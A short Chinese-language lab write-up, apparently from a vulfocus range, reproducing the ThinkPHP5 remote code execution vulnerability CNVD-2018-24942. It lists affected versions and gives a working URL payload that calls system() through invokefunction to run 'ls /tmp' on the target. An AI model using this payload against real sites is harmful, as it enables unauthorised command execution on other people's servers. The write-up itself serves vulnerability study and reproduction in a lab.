 # ThinkPHP5 远程代码执行漏洞（CNVD-2018-24942）by [hu4wufu](https://github.com/hu4wufu)

## 概述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 漏洞复现

1、打开靶场，开启此漏洞对应靶场环境： thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)![1](./1.png)

2、直接在目录后面增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp

```

![2](.\2.png)

## 参考链接

https://github.com/fofapro/vulfocus/blob/master/writeup/CNVD-2018-24942/CNVD-2018-24942.md

